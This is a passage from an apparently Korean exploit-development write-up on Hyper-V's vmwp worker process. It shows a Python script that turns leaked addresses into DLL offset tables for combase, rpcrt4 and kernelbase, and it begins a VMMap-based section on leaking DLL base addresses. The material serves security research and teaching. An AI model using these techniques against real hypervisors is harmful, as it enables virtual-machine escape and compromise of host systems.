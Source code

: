 ```python
for i in data:
    if combase.end() > i > combase.begin() and (i - combase.begin()) != 0:
        combase_offsets.append(i - combase.begin())
    elif rpcrt4.end() > i > rpcrt4.begin() and (i - rpcrt4.begin()) != 0:
        RPCRT4_offsets.append(i - rpcrt4.begin())
    elif kernelbase.end() > i > kernelbase.begin() and (i - kernelbase.begin()) != 0:
        kernelbase_offsets.append(i - kernelbase.begin())


#print(f"#define COMBASE_LEN {len(combase_offsets)}")
#print(f"#define RPCRT4_LEN {len(RPCRT4_offsets)}")
#print(f"#define KERNELBASE_LEN {len(kernelbase_offsets)}")

print("const unsigned int combase_offset[] = {",end='')
for i in list(dict.fromkeys(combase_offsets)):
    print(hex(i), end=", ")
print("};")

print("const unsigned int rpcrt4_offset[] = {", end='')
for i in list(dict.fromkeys(RPCRT4_offsets)):
    print(hex(i), end=", ")
print("};")

print("const unsigned int kernelbase_offset[] = {", end='')
for i in list(dict.fromkeys(kernelbase_offsets)):
    print(hex(i), end=", ")
print("};")

```

그럼 위의 스크립트를 사용해서 dll 오프셋 정보를 수집해보겠습니다!

### Leak DLL Base
먼저 VMMap으로 vmwp의 메모리 레이아웃을 분석해봅시다.  VMMap은 마이크로소프트의 메모리 분석 유틸리티로 [여기](https://learn.microsoft.com/ko-kr/sysinternals/downloads/vmmap)에서 다운로드하실 수 있습니다.

![](newjeans-hyper-v-pt4/image5.png)
먼저 vmwp는 64비트이기 때문에 vmmap64를 관리자 권한으로 실행해줍시다. L2를 킨 다음에 vmmap에서 단축기 `CTRL+P`로 분석할 프로세스를 선택하는 창을 띄우고 vmwp를 선택하면 아래와 같이 메모리를 볼 수 있습니다.